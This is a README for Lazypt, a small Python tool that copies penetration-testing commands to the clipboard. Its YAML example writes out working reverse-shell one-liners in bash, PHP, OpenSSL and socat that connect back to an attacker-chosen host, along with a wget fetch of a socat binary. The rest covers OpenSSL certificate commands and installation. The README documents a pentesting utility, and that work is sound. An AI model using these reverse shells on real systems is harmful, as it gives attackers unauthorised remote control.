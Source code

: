 # Lazypt v0.1

Lazypt is a simple Python program that pastes to your clipboard some common penetration testing commands.

## Features

- Reverse shell cheatsheet
- Openssl certificates conversion/generation cheatsheet

### Reverse shell cheatsheet
The following reverse shell commands are available. They can be expanded with your custom cheatsheet by editing the file revshell.yaml
- py
- pl
- sh
- php
- rb
- awk
- openssl
- socat

### YAML example

```yaml
---
- sh:
    code: bash -i >& /dev/tcp/{}/{} 0>&1
- php:
    code: php -r '$sock=fsockopen("{}",{});exec("/bin/sh -i <&3 >&3 2>&3");'
- openssl:
    code: |-
       Attacker> ncat --ssl -vv -l -p {}
       Target> mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect {}:{} > /tmp/s; rm /tmp/s
- socat:
    code: |-
      Attacker> socat file:`tty`,raw,echo=0 tcp-listen:{}
      Target> socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:{}:{}
      Socat binary> wget https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat
```

place {} where you want to put LHOST and LPORT passed to the program as args.


### OpenSSL cheatsheet
The following openssl commands are available. They can be expanded with your custom cheatsheet by editing the file openssl.yaml
- Command to generate a Private Key and a CSR
- Command to generate a CSR from an Existing Private Key 
- Command to generate a CSR from an Existing Certificate and Private Key
- Command to generate a Self-Signed Certificate
- Command to generate a Self-Signed Certificate from an Existing Private Key
- Command to generate a Self-Signed Certificate from an Existing Private Key and CSR
- Command to convert PEM to DER
- Command to convert DER to PEM
- Command to convert PEM to PKCS7
- Command to convert PKCS7 to PEM  
- Command to convert PEM to PKCS12
- Command to convert PKCS12 to PEM
    
## Dependencies
- click
- pyperclip
- pyYAML

## Installation

```bash
git clone https://github.com/AndyBTuttofare/lazypt.git
cd lazypt
python setup.py install
```

## Usage

```bash
Usage: lazypt rsh [OPTIONS] LHOST LPORT [py|pl|sh|php|rb|awk|openssl|socat]

  Copy the chosen reverse shell code to the clipboard. It allows to switch
  the scripting language. (Does not run the commands)

Options:
  --help  Show this message and exit.
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.


## License
[MIT](https://choosealicense.com/licenses/mit/)

